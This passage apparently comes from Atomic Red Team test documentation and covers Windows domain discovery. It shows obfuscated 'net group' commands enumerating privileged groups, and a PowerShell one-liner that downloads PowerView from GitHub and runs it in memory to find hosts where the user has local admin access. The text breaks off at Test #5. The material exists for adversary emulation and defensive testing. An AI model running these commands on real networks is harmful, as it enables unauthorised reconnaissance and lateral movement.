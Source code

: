 ## Atomic Test #3 - Elevated group enumeration using net group (Domain)

Runs "net group" command including command aliases and loose typing to simulate enumeration/discovery of high value domain groups. This
test will display some errors if run on a computer not connected to a domain. Upon execution, domain information will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** 0afb5163-8181-432e-9405-4322710c0c37

#### Attack Commands: Run with `command_prompt`!

```cmd
net groups "Account Operators" /doma
net groups "Exchange Organization Management" /doma
net group "BUILTIN\Backup Operators" /doma
net group /domai "Domain Admins"
```

<br/>
<br/>

## Atomic Test #4 - Find machines where user has local admin access (PowerView)

Find machines where user has local admin access (PowerView). Upon execution, progress and info about each host in the domain being scanned will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** a2d71eee-a353-4232-9f86-54f4288dd8c1

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-LocalAdminAccess -Verbose
```

<br/>
<br/>

## Atomic Test #5 - Find local admins on all machines in domain (PowerView)

Enumerates members of the local Administrators groups across all machines in the domain. Upon execution, information about each machine will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** a5f0d9f8-d3c9-46c0-8378-846ddd6b1cbd

#### Attack Commands: Run with `powershell`!
